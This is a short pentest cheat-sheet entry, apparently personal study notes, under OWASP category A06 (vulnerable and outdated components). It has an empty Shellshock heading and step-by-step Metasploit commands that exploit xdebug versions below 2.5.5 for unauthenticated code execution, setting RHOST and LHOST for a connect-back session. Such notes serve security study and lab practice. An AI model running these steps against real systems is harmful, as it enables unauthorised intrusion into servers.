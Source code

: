 # A06 - Vulnerable and Outdated Components

## Shellshock

## xdebug (< 2.5.5)
- ```msfconsole```
- ```search xdebug```
- ```use exploit/unix/http/xdebug_unauth_exec```
- ```show options```
- Set the RHOST and LHOST
- ```exploit```
